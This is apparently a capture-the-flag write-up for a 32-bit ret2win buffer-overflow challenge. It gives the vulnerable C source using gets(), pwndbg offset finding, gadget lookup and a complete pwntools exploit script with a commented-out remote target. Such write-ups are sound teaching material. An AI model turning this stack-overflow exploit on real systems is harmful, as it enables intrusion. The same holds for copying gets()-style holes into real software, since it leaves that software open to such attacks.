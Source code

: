 # Binexp-1

> **Description:** Ever heard of the cow that jumps over the moon? 
>
> **Remote Instance:** nc 54.255.236.13 9001

### Basic File Checks

Perform basic file checks to understand how the binary was compiled.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ file binexp-1 
binexp-1: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=cc905ed71a037c20214db617b5901e4542899113, not stripped
```

From the command above, some of the major takeaways are:

- ELF File Type.
- 32-bit.
- Least Significant Bit (LSB) executable.
- Functions name not stripped.

We can also perform binary protection checks to get an overall idea on where to start tackling the challenge. `No PIE` indicates that we do not have to worry about Address Randomization when performing a `ret2win` attack.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ checksec --file=binexp-1 
[*] '/home/kali/Desktop/binexp-1'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

### Static Code Analysis

By looking at the source code, the `win` function appears to be a dead-code and unreachable by logic. It was initialized but never called by the `main` function. Once again, the same Buffer Overflow vulnerability presents in the `gets` function.

```c
#include <stdio.h>
#include <stdlib.h>

char flag[100];

int win() {
	printf("%s", flag);
	fflush(stdout);
}

int main(int argc, char *argv[]) {
	char buf[64];

	FILE *f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("'flag.txt' not found.");
		exit(0);
	}

	fgets(flag, 100, f);

	puts("Can you make this jump?");
	gets(buf);
	puts("Welp... Guest not.");
}
```

### Finding Offset & Address

To find the offset or the number of characters required to fill the padding, we can use the `cyclic` module together with `pwn-dbg`. When the program crashes due to segmentation fault, we can inspect the EIP’s value and perform a lookup to determine its offset.

```
pwndbg: loaded 198 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from binexp-1...
(No debugging symbols found in binexp-1)
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

pwndbg> run
Starting program: /home/kali/Desktop/binexp-1 
Can you make this jump?
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welp... Guest not.

Program received signal SIGSEGV, Segmentation fault.
0x61616175 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────────────[ REGISTERS ]───────────────────────────────────────────
 EAX  0x13
 EBX  0x0
 ECX  0xffffffff
 EDX  0xffffffff
 EDI  0x8048480 (_start) ◂— xor    ebp, ebp
 ESI  0x1
 EBP  0x61616174 ('taaa')
 ESP  0xffffd110 ◂— 'vaaawaaaxaaayaaa'
 EIP  0x61616175 ('uaaa')
─────────────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────
Invalid address 0x61616175

pwndbg> cyclic -l uaaa
80
```

Instead of overwriting a variable, we can overwrite the Instruction Pointer with the address of `win` function. Since PIE is not enabled, we can easily get the static address of `win` function and have the EIP point to that particular address.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ objdump -D binexp-1 | grep "win"     
08048534 <win>:   
```

To ensure that the stack contains the proper amount of bytes to be aligned, we can make use of the `ret` gadget to fill up the space.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ ropgadget binexp-1 | grep "ret" 
0x080483be : ret
```

### Solution

Using pwntools to automate the process:

```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./binexp-1')
rop = ROP(elf)

p = elf.process()
#p = remote('54.255.236.13', 9001)

def exploit():

    padding = b'A'*80
    ret = (rop.find_gadget(['ret']))[0]
    flag = elf.symbols['win']

    payload = padding
    payload += p32(ret)
    payload += p32(flag)

    print(p.recvuntil(b'?'))

    print(payload)
    p.sendline(payload)

    p.interactive()

def main():
    exploit()

if __name__ == "__main__":
    main()
```

